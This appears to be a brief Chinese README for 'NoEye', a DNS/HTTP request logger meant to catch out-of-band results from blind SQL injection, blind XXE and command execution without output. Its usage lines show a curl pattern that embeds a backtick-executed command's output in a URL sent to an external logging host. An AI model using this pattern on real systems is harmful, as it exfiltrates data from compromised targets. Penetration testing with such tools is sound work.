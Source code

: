 # [NoEye](http://eye.itwzw.cn)
记录DNS记录和HTTP请求

>碰上盲注 盲xxe 无回显命令执行再也不用怕了

## 简单用法

>curl yourdomain/user/payload

>curl yourdomain/user/`command`


```
个人测试学习所用，目前只有HTTP记录，有兴趣可以改造一下
```

